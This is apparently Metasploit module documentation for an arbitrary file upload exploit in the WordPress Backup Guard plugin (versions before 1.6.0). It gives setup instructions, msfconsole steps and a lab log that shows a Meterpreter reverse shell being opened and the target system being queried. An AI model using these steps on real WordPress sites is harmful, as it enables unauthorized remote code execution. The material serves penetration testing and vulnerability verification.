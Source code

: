 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin Backup Guard < 1.6.0.
This is due to an incorrect check of the uploaded file extension which should be of SGBP type.
Then, the uploaded payload can be triggered by a call to `/wp-content/uploads/backup-guard/my_payload.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of Backup Guard plugin from [there]
(https://downloads.wordpress.org/plugin/backup.1.5.8.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/multi/http/wordpress_plugin_backup_guard_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_wordpress>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and Backup Guard 1.5.8.
See the following output :

```
msf > use wordpress_plugin_backup_guard_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(wordpress_plugin_backup_guard_rce) > set username admin
username => admin
msf exploit(wordpress_plugin_backup_guard_rce) > set password your_best_password
password => your_best_password
msf exploit(wordpress_plugin_backup_guard_rce) > set rhosts 192.168.37.1
rhosts => 192.168.37.1
msf exploit(wordpress_plugin_backup_guard_rce) > run

[*] Started reverse TCP handler on 192.168.37.133:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 1.5.8 of plugin Backup Guard found !
[+] The target is vulnerable. This version of Backup Guard is vulnerable !
[*] Uploading file 'fsygw.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.37.1
[*] Meterpreter session 1 opened (192.168.37.133:4444 -> 192.168.37.1:52688) at 2021-07-08 16:44:01 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 217a92584fbf
OS          : Linux 217a92584fbf 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
```
